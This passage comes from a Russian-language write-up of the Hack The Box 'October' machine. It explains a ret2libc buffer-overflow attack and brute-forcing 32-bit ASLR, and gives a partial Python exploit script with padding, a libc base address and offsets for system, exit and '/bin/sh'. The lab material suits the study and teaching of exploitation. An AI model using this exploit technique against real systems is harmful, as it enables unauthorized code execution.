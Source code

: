 [![exploit_no_aslr-py.png]({{ "/img/htb/boxes/october/exploit_no_aslr-py.png" | relative_url }})]({{ "/img/htb/boxes/october/exploit_no_aslr-py.png" | relative_url }})
{: .center-image}

Таким образом, мы обошли защиту от выполнения кода в стеке. Сама по себе защита DEP не может помешать проведению атаки ret2libc, т. к. в данном случае мы задействуем уже существующий в адресном пространстве машинный код. Для усложнения проведения эксплуатаций подобного рода применяется технология рандомизация размещения адресного пространства ASLR, благодаря которой адрес загрузки стандартной библиотеки в память меняется с каждым вызовом программы. Для 64-битных архитектур это решения и правда сильно затрудняет жизнь «низкоуровневому» нарушителю, однако на 32-битных системах адрес `libc` вполне легко можно подобрать при условии отсутствия ограничений на количество разрешенных запусков уязвимого исполняемого файла.

## Обход ASLR — метод «грубой силы»

Активируем ASLR и взглянем на то, как меняются адреса загрузки `libc`, снова выполнив скрипт `ldd` в цикле.

```
$ sudo sh -c 'echo 2 > /proc/sys/kernel/randomize_va_space'
```

[![aslr-changing-bytes-localhost.png]({{ "/img/htb/boxes/october/aslr-changing-bytes-localhost.png" | relative_url }})]({{ "/img/htb/boxes/october/aslr-changing-bytes-localhost.png" | relative_url }})
{: .center-image}

На моем стенде, равно как и на ВМ October, значительным изменениям подвергается всего **один байт** (3-й и 4-й разряды адреса, представленного в шестнадцатиричной записи, начиная отсчет с нуля) и **один бит** (в 5-м разряде, где мы видим всего два различных значения).

[![aslr-changing-bytes-pic.png]({{ "/img/htb/boxes/october/aslr-changing-bytes-pic.png" | relative_url }})]({{ "/img/htb/boxes/october/aslr-changing-bytes-pic.png" | relative_url }})
{: .center-image}

В квадратных скобках я отметил количество возможных вариантов для данной позиции исходя из размышлений выше. Следовательно, если я возьму наугад случайный адрес из тех 512 значений, которые могут «выпасть», то я получу шанс `1 - (511/512) ≈ 0.2%` угадать правильный адрес `libc`. Однако если я запущу тот же самый эксплоит 1000 раз, то мои шансы на успех повысятся до `1 - (511/512)^1000 ≈ 85.84%`, что звучит намного более оптимистично.

Модифицируем наш скрипт, обернув вызов программы в цикл.

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

# Использование: python exploit.py

import struct
from subprocess import call


def little_endian(num):
	"""Упаковка адреса в формат little endian."""
	return struct.pack('<I', num)


junk = "A" * 112            # мусор

libc_addr = 0xb7e09000      # базовый адрес libc

system_offset = 0x0003ada0  # смещение функции system
exit_offset = 0x0002e9d0    # смещение функции exit
sh_offset = 0x0015ba0b      # смещение строки "/bin/sh"

system_addr = little_endian(libc_addr + system_offset)
exit_addr = little_endian(libc_addr + exit_offset)
```